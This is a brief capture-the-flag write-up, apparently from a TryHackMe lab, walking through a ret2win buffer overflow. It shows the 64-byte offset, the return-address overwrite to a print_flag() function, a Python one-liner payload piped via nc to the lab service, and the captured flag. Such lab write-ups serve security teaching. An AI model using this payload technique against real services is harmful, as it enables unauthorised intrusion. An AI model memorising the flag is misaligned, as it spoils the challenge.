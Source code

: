 
# Task-28

the goal is to reverse engineer the binary and try to break the service

<target-ip> 9008

---

Download `Files (materials)`


- Checked the binary start using `file`, `strings`, and `objdump`.
- Found a function `print_flag()` at address `0x401216` that prints the flag.

```bash
./start
Enter your username: admin
Access denied.
```

## Identified Buffer Overflow
- Sent increasing lengths of input and found the binary crashes (segfault).
- Used a cyclic pattern to find the offset where input overwrites the return address.
- Found the offset to be 64 bytes.

## Buffer overflow Exploitation:

```py
python3 -c "print('A'*64 + '\x16\x12\x40\x00\x00\x00\x00\x00')" | nc 10.10.252.185 9008

Enter your username: Welcome, admin!
THM{nice_place_t0_st4rt}
```
- `'A'*64`: Fills the buffer with 64 'A' characters (padding to reach the return address).
- `\x16\x12\x40\x00\x00\x00\x00\x00`: Overwrites the saved return address on the stack with `0x401216` (little-endian format for 64-bit).
- `nc 10.10.252.185 9008`: Sends the payload to the vulnerable service.
